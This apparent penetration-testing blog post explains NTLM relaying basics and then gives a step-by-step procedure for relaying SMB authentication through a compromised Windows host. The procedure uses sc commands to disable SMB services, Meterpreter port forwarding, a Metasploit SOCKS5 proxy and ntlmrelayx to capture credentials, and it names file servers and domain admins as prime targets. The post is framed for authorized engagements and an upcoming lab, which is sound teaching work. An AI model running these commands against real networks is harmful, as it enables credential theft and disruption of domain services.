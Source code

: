 ```yaml
---
layout: post
title: Remote NTLM Relaying via Meterpreter
gh-badge:
  - star
  - fork
  - follow
tags:
 - TryHackMe
 - Windows
 - Active Directory
 - Cyber Security
comments: true
published: true
date: '2020-12-15'
---
```


### NetNTLM Relaying basics
NTLM Relaying is an Active Directory attack vector that commonly makes use of Man-In-The-Middle tools like Responder, MITM6, and others to intercept Active Directory protocols like SMB, HTTP, LDAP, etc to hijack a session and "relay" or redirect the intercepted session to the target host of your choise. 
It's important to understand that NetNTLM uses a challenge based request and response system, so you cannot replay NetNTLM traffic, only relay it. In order to Relay NetNTLM-Based traffic the Impacket developers have created a special tool called NTLMRelayX. NTLMRelayX brokers communications on our behalf and manages the challenge based request and response that enables us to successfully authenticate to a Server. It does so by holding the <insert protocol> session open and proxies the challenge that the server issues to the client, but never closes the session so you can authenticate to the server on an on-demand basis. In order to enable this functionality, you need to use the "-socks" flag, but by default, it will simply it will simply make use of other Impacket tools (like SecretsDump.py, if you relay to SMB, ACLPWN if you relay to LDAP/S, etc) but that's beyond the scope of what this article is trying to acomplish today. This seems really complicated, but is actually quite simple. I promise, I'm just bad at explaining overly technical topics. Impacket does a great job with documentation, if you'd like to learn more about NTLMRelayX, you can do so [here](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)

### Remote N.T.L.M. Relaying

I deem this attack vector called Remote N.T.L.M. Relaying (Never Trust Lan Man) purely because of how severe it can be. If you execute this attack on the correct host, Remote NTLM Relaying can incredbibly disruptive. This attack vector can be used on virtually any Windows host of your choosing as long as you have local Administrative rights, however, I suggest the primary target to be File Servers because these will gain the most traction. Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion. If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise the File Server, gain local Administrative Rights, and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it's game over.

### Initial Warning

As previously stated, this attack vector is incredily distruptive. It requires exactly 1 OS Restart to disable Active Directory services, and 1 OS Restart to re-enable them. If you are going to use this attack vector on an engagement, make sure you have **explicit authorization from the client**. Responsibility soley lies on the Attacker, and not myself. This is your official "This can break things, I take no responsibility for what you do. Lab it before you try it, understand the risks" and yada yada. 

### How To Preform Remote N.T.L.M. relaying

Anyways, onto the good stuff. With normal NTLM Relaying, insure you have a target selected that does not require Signing (We're going to use SMB in this demo, so I will here-on in refer to this as SMB signing exclusively). Secondly, ensure Impacket, NTLMRelayX, Meterpreter and Proxychains are all installed. All will be required for Remote NTLM relaying. Lastly, ensure that you have local administrator access, access via XFreeRDP/Remmina may break, so you should plan to fall back on rdesktop

On the victim, there's several services that need to be stopped/disabled/disabled at startup to ensure SMB services don't start, you'll need to execute the following commands:

```
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```

Ensure that all of the commands executed without failure. If successful, they should look like so:

![lanmanserver.png](https://raw.githubusercontent.com/Sq00ky/SpookySec-Blog/master/img/lanmanserver.png)

After all the services are disabled, restart the victim machine. After the machine restarts, run a quick port-scan on port 445 and ensure that it is marked as "Closed". This means you successfully disabled all the SMB-related services on the victim host. Next, you want to execute a Meterpreter shell on the target host, so we can setup a Remote Port Forward. We can do so with the following command in a Meterpreter Session:

```
portfwd add -R -L 0.0.0.0 -l 445 -p 445

```

This will capture traffic destined for our victim on remote port 445 and forward it to local port 445. 

![portfwd.png](https://puu.sh/H5I5Z/77cddab386.png)

Next we need to mascarade the host that our traffic is coming from and make it appear that it's coming from the victim and not us. We can do this with Metasploit's SOCKS5 server. Simply execute "use auxiliary/server/socks5" and "run" and our SOCKS5 server is ready to go. Lastly, we need to add the SOCKS5 proxy to our ProxyChains config, it's default config location on Kali is /etc/proxychains.conf. We simply need to add comment the last SOCKS4 proxy out and add "socks5 127.0.0.1 1080" and we're ready to rock.

All thats left is to proxy NTLMRelayX through proxychains and wait for the hashes to roll in. In a normal corporate network it may take a bit for a user with Local Administrative access to your target to attempt to access the SMB server, but remember, if it's an automounted script, you shouldn't have to wait too long. Back to NTLMRelayX

```
proxychains ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```

![success.png](https://raw.githubusercontent.com/Sq00ky/SpookySec-Blog/master/img/success.png)

Some trouleshooting and tweaking may be required for this to work, this exploit is very tricky to get working and takes a lot of time and patience. Personally, I recommend looking into tweaking the Port Forwarding settings, because I think there may be a better way of doing it. Coming soon Myself and [Cryillic](https://twitter.com/Real_Cryillic) will be releasing a lab based off of this attack vector called "Holo". as of 12/15/2020 it's currently in beta testing and should be released (hopefully) by Christmas :). Keep an eye on TryHackMe's [Hacktivites Page](https://tryhackme.com/hacktivities) for an estimated release date.

As always, thanks for reading <3

